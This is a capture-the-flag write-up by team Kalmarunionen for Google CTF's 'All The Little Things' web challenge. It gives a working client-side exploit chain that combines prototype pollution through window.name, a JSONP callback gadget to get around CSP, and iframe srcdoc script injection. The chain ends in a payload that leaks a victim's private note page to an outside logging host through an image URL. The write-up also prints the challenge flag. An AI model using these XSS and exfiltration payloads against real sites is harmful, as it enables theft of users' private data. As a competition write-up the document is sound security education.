 # All The Little Things
*Solution and write-up by team [Kalmarunionen](https://capturetheflag.withgoogle.com/scoreboard/kalmarunionen). We were one of only 20 teams to solve this during the competition.*

From the challenge description we can assume, that we need to find a private note for the user TJ Mike. We invoke him from the [Pasteurize](pasteurize.md) website previously used. Thus, we already know, that we have full unrestricted XSS on that domain.

![challenge-site](images/challenge-website.png)

## TL;DR
- Use `?__debug__` in the url to load `/static/script/debug.js`
- Poison the user object using the window.name with a JSON-payload similarly to 
```javascript
window.name = '{"__proto__":{},"theme":{"cb":"alert"}}';
```
- Use the `window.name` to inject an iframe allowing multiple invocations of `<script src="/theme?cb=XXX"></script>` where `XXX` is the payload
- Put the page contents in the url of an image loading an attacker-controlled page

## Initial Observations
A server-side vulnerability was quickly ruled out, leaving us with client-side attacks. Cookies are HTTP-only, meaning we cannot access and steal them from JavaScript. As private notes can only be viewed by the owner, we need to make the challenge user fetch it for us. We do not know the url of the note we wish to read, thus, we will first have to fetch the `/note` page to list all notes and afterwards fetch the content of the particular note.

Due to the Content Security Policy header (CSP) below we are not allowed to execute inline JavaScript, but only JavaScript from the domain it self. The only allowed remote resources are images, thus payload has to be served directly from the website and can be extracted using redirection or images. The full CSP is:
```
content-security-policy:
	default-src 'none';script-src 'self' 'nonce-dd52beb8df5224c2';img-src https: http:;connect-src 'self';style-src 'self';base-uri 'none';form-action 'self';font-src https://fonts.googleapis.com
```

## Vulnerabilities
### JavaScript Callback
Fortunately it is possible to serve JavaScript using the following gadget:
```html
<script src="/theme?cb=alert"></script>
```
Returned Content:
```javascript
alert({"version":"b1.13.7","timestamp":1598271043089})
```
However, the filtering taking place on the endpoints only lets us use basic characters such as A-Z, 0-9, underscore, dot (.) and the equal sign. No plus (no concatenation!), commas, parentheses, brackets, spaces or (semi)colons. In short, we only have one method call. Assignment can be made using `slice()` or similar, to get rid of the forced function invocation:
```html
<script src="/theme?cb=document.body.firstElementChild.innerHTML=window.name.slice"></script>
```
Returned Content:
```javascript
document.body.firstElementChild.innerHTML=window.name.slice({"version":"b1.13.7","timestamp":1598271043089})

// which is equalent to
document.body.firstElementChild.innerHTML = window.name

```

#### Multiple Calls

To achive multiple JavaScript calls, we use a neat little trick. When utilising `elm.innerHTML = '<script src=/theme?cb=alert></script>'` the script will never be executed as per the spec. However, if we inject an iframe with content, it will execute the script if it conforms to the CSP: 
```javascript
// newlines inserted for clarity
elm.innerHTML = '<iframe srcdoc="
        <script src=/theme?cb=alert></script>
        <script src=/theme?cb=alert></script>
    "></iframe>'
```

#### String Concatenation

To leak the page contents, we need to put it in the url of an image or an redirect. In either case, it should point to our domain, hence we need to concatenate to strings or at least be able to append. This can be done using a simple gadget:

```html
<span id=container>
    <span id=first>https://domain.com/</span>
    <span id=second>content</span>
<span>
```
And then in JavaScript we can just fetch it all using 
```javascript
console.log(window.container.innerText) // prints "https://domain.com/content"
```

### User Object Polution
Despite the `User` class having private properties `username`, `theme` and `img` we can overwrite them. Lets first inspect the relevant code:

File `/static/scripts/user.js`:
```javascript
class User {
    #username; #theme; #img
    constructor(username, img, theme) {
        this.#username = username
        this.#theme = theme
        this.#img = img
    }
    get username() {
        return this.#username
    }

    get img() {
        return this.#img
    }

    get theme() {
        return this.#theme
    }

    toString() {
        return `user_${this.#username}`
    }
}

function make_user_object(obj) {

    const user = new User(obj.username, obj.img, obj.theme);
    window.load_debug?.(user);

    // make sure to not override anything
    if (!is_undefined(document[user.toString()])) {
        return false;
    }
    document.getElementById('profile-picture').src=user.img;
    window.USERNAME = user.toString();
    document[window.USERNAME] = user;
    update_theme();
}
```
File `/static/scripts/debug.js`:
```javascript
// Extend user object
function load_debug(user) {
    let debug;
    try {
        debug = JSON.parse(window.name);
    } catch (e) {
        return;
    }

    if (debug instanceof Object) {
        Object.assign(user, debug);
    }
    ...
```

Of special interest is the `Object.assign(user, debug)` in the `debug.js`. Here we are assigning properties from the `debug` object into the `user` object. To be able to overwrite the private properties, we have to use prototype polution:

![prototype-polution](images/prototype-polution.png)

Notice the difference - whem we specify `"__proto__"` we do not get any errors and are able to overwrite the private properties.

## Chaining It All Together
The target is once again TJ Mike from the Pasteurize application. See our [Pasteurize write-up](pasteurize.md)For details on how to gain XSS on that. It will be the starting point where we launch our attack. 

The payload we inject into the Pasteurize application does the following:

1) injects an iframe into the page using content stored in `window.name`
2) the content/srcdoc of the iframe contains two scripts
3) the first script appends the page contents to our target extraction url
4) the last script loads an image with above url

```javascript
window.name = `{"__proto__":{},"theme":{"cb":"document.body.firstElementChild.innerHTML=window.name.slice"},"i":"<iframe srcdoc='<span id=total><span id=a>\/\/xss.wep.dk\/log\/5f43ce07ebcf5\/<\/span><span id=b></span></span><img id=img src=x><script src=/theme?cb=window.b.innerText=window.parent.document.body.innerText.slice><\/script><script src=/theme?cb=window.img.src=window.total.innerText.slice><\/script>'/>"}`;
```

### First Invocation - Fetching The Note Id
After running the above command to name the window, we redirect the TJ Mike to the note listing page:

```javascript
window.location = "https://littlethings.web.ctfcompetition.com/note?__debug__";
```

[The result](https://xss.wep.dk/?id=5f43ce07ebcf5) reveals the target note id:

![note-id](images/note-id.png)

### Second Invocation - Fetching The Secret
Using the same `window.name` as above we now redirect TJ Mike directly to the note:
```javascript
window.location = "https://littlethings.web.ctfcompetition.com/note/22f23db6-a432-408b-a3e9-40fe258d500f?__debug__";
```

The result:
![flag](images/flag-world-end.png)

Flag: `CTF{When_the_w0rld_c0mes_t0_an_end_all_that_matters_are_these_little_things}`

